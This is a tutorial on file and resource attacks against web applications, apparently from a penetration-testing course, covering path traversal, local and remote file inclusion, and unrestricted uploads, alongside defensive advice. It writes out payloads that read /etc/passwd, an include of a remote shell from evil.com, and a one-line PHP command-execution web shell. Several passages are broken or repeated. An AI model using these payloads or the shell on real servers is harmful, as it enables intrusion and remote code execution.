:orphan:
(web-app-vulnerabilities-files-and-resources-attacks)=
# Web App Vulnerabilities: Files and Resources Attacks
 

Some online applications require file system resources (such graphics, static text, and so forth) in order to be implemented. They occasionally define the resources using parameters. Security problems may occur when these parameters are user-controlled, improperly sanitized, and utilized to construct the resource path on the file system.

## Path traversal

Consider, for instance, a web application that enables us to download a file by making the following URL request:

```php
http://www.foobar.com/getFile?path=FileA418fS5fds.pdf
```

The web application will search the file system for the resource FileA418fS5fds.pdf using the argument path.

An attacker might use the argument to view the contents of any arbitrary file if the web application does not properly sanitize it (access resources that are not intended to be accessed).

The letters that enable us to advance up the directory tree are typically used in this assault, also known as the dot-dot-slash attack (`../`).

It could be feasible to reach directories that are hierarchically higher than the one from which we are selecting the file by beginning the sequence with `../`.

For instance, under UNIX systems, the password file may be accessed using the following URL:

```php
http://www.foobar.com/getFile?path=../../../etc/passwd
```

We are ascending three levels from the current level to the root using relative path addressing. Absolute paths may be used to accomplish the same thing:

```php
http://www.foobar.com/getFile?path=/etc/passwd
```
You can try to access the following resources on Windows computers, depending on the target OS version:

```php
http://www.foobar.com/getFile?path=../../../windows/win.ini
```

```php
http://www.foobar.com/getFile?path=../../../boot.ini
```

In order to defend our web applications against these assaults, let's first examine some important information on how to create a route traversal payload.


Depending on the Operating System used by the web server, the following syntax can be used to find a root folder:


Depending on the operating system, the following directory separator symbols should be used:



You can use the following syntax to advance the current directory:


The current file name might be ended with a specified sequence. The NULL BYTE is the name of this sequence:


Note that `%00` does not work with `PHP versions >= 5.3.4`.

In the event that the web application appends further data to the string, this might be handy to finish the string. An illustration of pseudo-code:

```php
file_read ("/htdocs/website/reports/" user_input + ".pdf");
```

The user might end the string and read any more file extensions by adding a percent of 00:

```php
../../etc/passwd%00
```

Different encodings should be understood by web programs that filter out these unpleasant characters. Here are some illustrations of single and double URL encoding:



The target web application may support any amalgamation of the aforementioned codecs. You might thus experiment with the payloads listed below:



Filtering out any dangerous sequences from the input parameters is the easiest technique to fight against a Path traversal attack; on the right, you can see some common sequences that should be screened.



Most of the time, you'll also want to filter only the "/" character.

## File inclusion vulnerabilities

In accordance with the location of the file to be included, file inclusion vulnerabilities are classified as Remote and Local.

Some of you may recall the early 1990s Local File Inclusion (LFI) attack on the original Perl CGIs:

```php
visit.pl?url=../../../../etc/passwd
```

This type of vulnerability was very common at that time, as a result 
of security awareness not being very widespread among 
developers. 

However, it is still present in custom scripts where the input's path characters are used as part of an include rather than being removed.

If we examine a straightforward PHP code fragment, the issue becomes clearer. Assume that the content of the target application varies based on the visitor's location. This is how the URL will look:

```php
http://target.site/index.php?location=IT
```

> NOTE: that the parameter is handled as follows by the PHP code:

```php
<?php
include("loc/" . $_GET['location']);
?>
```

As you can see, we can enter any valid local path-to-file to have the PHP include it in the response to our browser:

```php
index.php?location=../../../etc/passwd
```

The famous Unix password file, etc/passwd, will be returned after going up three directories.

Let's examine a case in point. The location argument is used by the target application, which is hosted on http://lfi.site, to deliver content to the user.



We can use the following payload to see if the application is susceptible to LFI:



If the code is instead formatted as follows:

```php
<?php
include($_GET['location'] . "/template.tlp");
?>
```

Suitable exploits include:

```php
index.php?location=../../../etc/passwd%00
```

The string ends with the null character `%00`.

These flaws are typically discovered in small, custom-built CMSs where input is used to determine the routes of loaded pages before they are included.

The main difference between Remote File Inclusion (RFI) and Local File Inclusion (LFI) is that with RFI, the file to be included is fetched remotely.

In this instance, our goal is to execute our own code in addition to reading. An exploitable URL would resemble the following:

```php
vuln.php?page=http://evil.com/shell.txt
```

In this scenario, the page will include and run the shell.txt file, which contains PHP code.

A PHP shell that allows the hacker or pentester to run any code on the server is a frequent way to exploit this issue.

Even the most basic PHP shell will accept and execute commands from GET and POST parameters.

It's crucial to understand that the file included must not have the.php extension; otherwise, the attacker's computer will execute the included file's code instead of the target web application.
Let's examine this with an illustration.

The attacker's web application, which hosts the two files to include, is hosted on Windows, while the vulnerable application is hosted on a Linux machine (http://rfi.site).

We'll use the code below for the test.php and test.txt files, which are both hosted on the attacker's machine, to see what occurs.

This straightforward PHP script uses the phpinfo() function, which provides details about the state of PHP as it is now running on the system.

```php
<?php
phpinfo();
?>
```

We can see that the data produced by the phpinfo() function is connected to the weak web application if we attempt to exploit the RFI and include the file test.txt. So the RFI functions flawlessly.



While this is going on, if we attempt to include the test.php file, we can observe that the phpinfo() method returns data about our (attacker) web server.



We must utilize a `.txt` file because of this.

When a code inclusion is suspected, this vulnerability should be investigated.

You can just inject `"http://www.google.com"` to instantly identify a weak input.

```php
vuln.php?page=http://www.google.com
```

If it is, the vulnerable web page should have the HTML code from google.com injected into it.

> NOTE: The allow url include directive in php.ini is enabled, making RFI conceivable. Setting it to Off is a wise move.

You need a PHP shell that is uploaded somewhere and available via the internet in order to exploit RFI.

Be aware that there are numerous shells available online, each with unique characteristics and purposes.

> NOTE: Be aware that there are numerous shells available online, each with unique characteristics and purposes.

## Unrestricted file upload

One of the most dangerous flaws a web application might have is the [unrestricted file upload](https://www.owasp.org/index.php/Unrestricted_File_Upload) vulnerability.

All web applications that permit file uploads without properly enforcing restrictive policies on:
- The maximum size of the file (DoS)
- The nature of the file (if Image, PDF, XLS…)

The risk of compromise is particularly great if online applications do not apply sufficient limitation on files uploaded by the user.

A malicious user (as well as a penetration tester) may be able to take full control of the system despite the fact that the impact of this vulnerability greatly depends on how the file is used by the web application!

Let's examine this vulnerability's operation and potential applications.

Let's assume that our target web application is both located at `http://fileupload.site` and that a user who has been verified can add a personal image to their profile page.

Let's say the following web page receives the upload via the POST method:

```php
http://fileupload.site/uploadImage.php
```

assuming that querying the following URL will yield the new image:

```php
http://fileupload.site/images/<FileNameAsUploadedByTheUSER>
```

A malicious user could upload a shell and execute it by browsing to the uploaded file (assuming the path and file name are predictable or known) if the web application does not perform checks on the file type submitted.

```php
<?php
exec($_GET[‘command’]);
?>
```
The attacker would be able to run any OS command by supplying it in the URL using the straightforward shell we just saw in the previous:

```php
http://fileupload.site/images/myshell.php?command=<COMMAND>
```

The following circumstances must exist for the application to be vulnerable:



Be aware that uploading a shell is the most effective way to exploit this weakness, while it is by no means the only one.

While a web shell might enable an attacker to run commands, traverse the system, and so forth, other assaults like making phishing pages, altering web applications, storing XSS, and uploading malicious files are also possible.

Let's look at a very basic illustration of a weak web application that enables users to submit a file to use as their profile image.

Understanding how the program functions, where the file is saved, and how it is used and integrated into the web application itself should come first.

The intended web application is listed below. Let's submit an image and check the results.



Let's click the browse button and choose the atk.png image from our computer's storage. Once it has been uploaded, we are sent to the account.php page, where the following occurs:



The image has been successfully uploaded, and if we look at the page's source code, we can see that it has been placed in the uploads folder on the web server. Additionally, our user ID (231 in our case) is added to the name:



Verifying what transpires when we attempt to upload a file with a different extension is the next step. We'll attempt to upload a file with the phpinfo() function, called info.php.

No exceptions or errors are thrown. Additionally, if we look into the account.php page's source code, we can notice that it tries to use the file 231.php in the image tag.



The vulnerability appears to exist. The URL fileupload.site/uploads/231.php can now be navigated. As we can see, the vulnerability is present, and the file that was just uploaded allows us to obtain the server's information.



As a result, the application does not verify the file's content or extension.

Due to this configuration's flaws, a hacker might compromise the system and take full control of the web server by uploading any shell or kind of file.

The submitted file should be examined by a web developer at two separate levels:



The first line of protection is enforcing a whitelist (or blacklist) of permitted file extensions, however this is regrettably not the best option; it will just make it harder for attackers, not stop them.

Only PDF files with the.pdf extension are supported for upload by a web application.

Through an include of the file content, the user is displayed the files.

A text file with a `.pdf` extension that contains server-side code will be executed if it is added by a malicious user. A protection method is not the file extension!

Additionally, when a local file inclusion exploit is discovered elsewhere in the web application, file uploads with restricted extensions are still vulnerable to being used against them.

The greatest protection is to actually identify the file type by looking at the uploaded file's content; you may do this by utilizing parsers for text files or libraries for binary formats. This is not the only suggestion, though.

Web designers must specify file size and name restrictions, arrange the upload folder's permissions appropriately, filter out and delete special characters, utilize virus scanners, and other requirements.

Before building a filter, web designers must respond to the following queries:



## References

[PHP Null Byte fix](http://svn.php.net/viewvc?view=revision&revision=305507)    

[Unrestricted File Upload](https://www.owasp.org/index.php/Unrestricted_File_Upload)    

:::{seealso}
Looking to expand your knowledge of penetration testing? Check out our online course, [MPT - Certified Penetration Tester](https://www.mosse-institute.com/certifications/mpt-certified-penetration-tester.html)
:::